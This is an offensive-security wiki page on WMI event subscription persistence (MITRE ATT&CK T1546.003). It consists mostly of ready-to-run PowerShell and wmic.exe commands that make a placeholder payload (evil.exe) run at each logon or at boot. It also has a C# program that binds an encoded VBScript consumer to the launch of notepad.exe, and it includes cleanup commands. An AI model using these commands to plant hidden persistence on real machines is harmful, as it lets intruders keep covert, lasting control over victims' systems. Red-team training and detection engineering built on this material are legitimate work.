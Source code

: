 ```yaml
---
description: >-
  MITRE ATT&CK™  Event Triggered Execution: Windows Management Instrumentation
  Event Subscription - Technique T1546.003
---
```


# WMI Event Subscription

## Theory

Using WMI on a remote endpoint, we can perform persistence based on subscription to WMI events. Note that this technique can be used to perform lateral movements. [See this page](../../redteam/pivoting/remote-wmi.md#lateral-movement-via-wmi-event-subscription) for more information

Typically, WMI event subscription requires creation of the following three classes which are used to store the payload or the arbitrary command, to specify the event that will trigger the payload and to relate the two classes (\_\_EventConsumer &\_\_EventFilter) so execution and trigger to bind together.

* **\_\_EventFilter** // Trigger (new process, failed logon etc.)
* **EventConsumer** // Perform Action (execute payload etc.)
* **\_\_FilterToConsumerBinding** // Binds Filter and Consumer Classes

Implementation of this technique doesn’t require any toolkit since Windows has a utility that can interact with WMI (wmic) and PowerShell can be leveraged as well.

## Practice

{% tabs %}
{% tab title="Windows - Powershell" %}
Execution of the following commands using powershell will create in the name space of _“**root\subscription**“_ three events. You can set the arbitrary payload to execute within 5 seconds on **every new logon session creation** or within 60 seconds **every time Windows starts.**

```powershell
#Create filter
#Query to execute payload within 60 seconds every time Windows starts:
#SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325
$FilterArgs = @{name='v4resk-WMI'; EventNameSpace='root\CimV2'; QueryLanguage="WQL"; Query="SELECT * FROM __InstanceCreationEvent Within 5 Where TargetInstance Isa 'Win32_LogonSession'"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

#Create consumer
$ConsumerArgs = @{name='WMIPersist'; CommandLineTemplate="$($Env:SystemRoot)\System32\evil.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

#Create cosnmerBinding (bind filter & consumer)
$FilterToConsumerArgs = @{Filter = [Ref] $Filter; Consumer = [Ref] $Consumer;}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

We can cleanup using following commands

```powershell
#Get Filter,Consumer,FilterConsumerBindin
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'v4resk-WMI'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'v4resk-WMI'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding"

#Remove
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```
{% endtab %}

{% tab title="Windows - wmic.exe" %}
Execution of the following commands using wmic.exe will create in the name space of _“**root\subscription**“_ three events. You can set the arbitrary payload to execute within 5 seconds on **every new logon session creation** or within 60 seconds **every time Windows starts.**

```powershell
#Create filter to execute payload within 5 seconds on every new logon session creation:
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="JustAnEventFilter", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceCreationEvent Within 5 Where TargetInstance Isa 'Win32_LogonSession'"
#Or
#Create filter to execute payload within 60 seconds every time Windows starts:
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="JustAnEventFilter", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"

wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="JustAconsumer", ExecutablePath="C:\Windows\TEMP\evil.exe",CommandLineTemplate="C:\Windows\TEMP\evil.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"JustAnEventFilter\"", Consumer="CommandLineEventConsumer.Name=\"JustAconsumer\""
```
{% endtab %}

{% tab title="C#" %}
We can implement the same technique with following `C#` code

```csharp
// WMI Event Subscription Peristence Demo
// Author: @domchell

using System;
using System.Text;
using System.Management;

namespace WMIPersistence
{
    class Program
    {
        static void Main(string[] args)
        {
            PersistWMI();
        }

        static void PersistWMI()
        {
            ManagementObject myEventFilter = null;
            ManagementObject myEventConsumer = null;
            ManagementObject myBinder = null;

            string vbscript64 = "<INSIDE base64 encoded VBS here>";
            string vbscript = Encoding.UTF8.GetString(Convert.FromBase64String(vbscript64));
            try
            {
                ManagementScope scope = new ManagementScope(@"\\.\root\subscription");

                ManagementClass wmiEventFilter = new ManagementClass(scope, new
                ManagementPath("__EventFilter"), null);
                String strQuery = @"SELECT * FROM __InstanceCreationEvent WITHIN 5 " +            
        "WHERE TargetInstance ISA \"Win32_Process\" " +           
        "AND TargetInstance.Name = \"notepad.exe\"";

                WqlEventQuery myEventQuery = new WqlEventQuery(strQuery);
                myEventFilter = wmiEventFilter.CreateInstance();
                myEventFilter["Name"] = "demoEventFilter";
                myEventFilter["Query"] = myEventQuery.QueryString;
                myEventFilter["QueryLanguage"] = myEventQuery.QueryLanguage;
                myEventFilter["EventNameSpace"] = @"\root\cimv2";
                myEventFilter.Put();
                Console.WriteLine("[*] Event filter created.");

                myEventConsumer =
                new ManagementClass(scope, new ManagementPath("ActiveScriptEventConsumer"),
                null).CreateInstance();
                myEventConsumer["Name"] = "BadActiveScriptEventConsumer";
                myEventConsumer["ScriptingEngine"] = "VBScript";
                myEventConsumer["ScriptText"] = vbscript;
                myEventConsumer.Put();

                Console.WriteLine("[*] Event consumer created.");

                myBinder =
                new ManagementClass(scope, new ManagementPath("__FilterToConsumerBinding"),
                null).CreateInstance();
                myBinder["Filter"] = myEventFilter.Path.RelativePath;
                myBinder["Consumer"] = myEventConsumer.Path.RelativePath;
                myBinder.Put();

                Console.WriteLine("[*] Subscription created");
            }
            catch (Exception e)
            {
                Console.WriteLine(e);
            } // END CATCH
            Console.ReadKey();
        } // END FUNC
    } // END CLASS
} // END NAMESPACE

```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/" %}
